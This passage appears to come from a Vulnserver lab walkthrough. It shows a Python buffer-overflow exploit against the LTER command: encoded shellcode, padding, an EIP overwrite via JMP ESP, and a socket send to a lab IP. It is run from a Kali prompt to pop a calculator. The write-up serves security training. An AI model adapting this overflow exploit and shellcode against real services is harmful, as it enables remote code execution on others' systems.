 ```c
buf += b"\x4d\x4b\x4f\x6b\x65\x65\x6c\x74\x46\x63\x4c\x67\x7a"
buf += b"\x4f\x70\x39\x6b\x6b\x50\x50\x75\x36\x65\x4f\x4b\x67"
buf += b"\x37\x45\x43\x53\x42\x30\x6f\x72\x4a\x73\x30\x31\x43"
buf += b"\x39\x6f\x79\x45\x31\x73\x53\x51\x50\x6c\x75\x33\x74"
buf += b"\x6e\x32\x45\x70\x78\x32\x45\x57\x70\x41\x41"

payload=b""
# to overwrite buffer and EBP
payload+=b"A"*2005
# to overwrite EIP with JMP ESP
payload+=b"\x03\x12\x50\x62"
# executing shellcode
payload+=buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 exploit.py                                            
```

By running this exploit, we would successfully pop a calculator by executing our shellcode

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/hter-exploit.mp4" type="video/mp4"/>
</video>
